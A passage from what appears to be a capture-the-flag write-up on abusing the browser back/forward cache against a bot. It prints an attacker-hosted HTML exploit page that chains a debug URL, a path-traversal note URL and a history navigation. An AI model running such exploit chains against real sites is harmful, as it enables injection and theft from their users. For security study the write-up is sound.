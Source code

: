 ![](https://i.imgur.com/Fcr5G5G.png)


Time to abuse the `cache` as mentioned in the writeup referenced above. Open the console and type `history.back()`

![](https://i.imgur.com/EKpmeFV.png)

#### Scripting part1

We need to make the bot visit `debug_url` first and then `local_inclusion` url. We then make use of `history.go(-2)` to abuse the cache.

Code Snippet: Both these files are hosted on the attacker server.

```html=
<!-- test.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Attacker Page</title>
</head>
<body>
  <script>
    // Define a sleep function that returns a promise that resolves after a specified delay
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const exploit = async () => {
      const note_id = "1";
      const baseUrl = 'http://127.0.0.1';
      const attacker_url =  'http://127.0.0.1:1337'
      const debug_path = "sd"
      const debug_url = `${baseUrl}/debug/${debug_path}/${note_id}`;
      const local_inclusion = `${baseUrl}/note/${note_id}?id=../debug/${debug_path}/${note_id}`;
      const goBackUrl = `${attacker_url}/goback.html`;

      try {
        console.log('Opening debug_url:', debug_url);
        const newWindow = window.open(debug_url, '_blank');
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating to local_inclusion:', local_inclusion);
        newWindow.location.href = local_inclusion;
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating back to debug_url using go-back.html');
        newWindow.location.href = goBackUrl;
        await sleep(2000); // Delay for 2 seconds
      } catch (error) {
        console.error('Error in exploit:', error);
      }
    };

    exploit();
  </script>
</body>
</html>
```
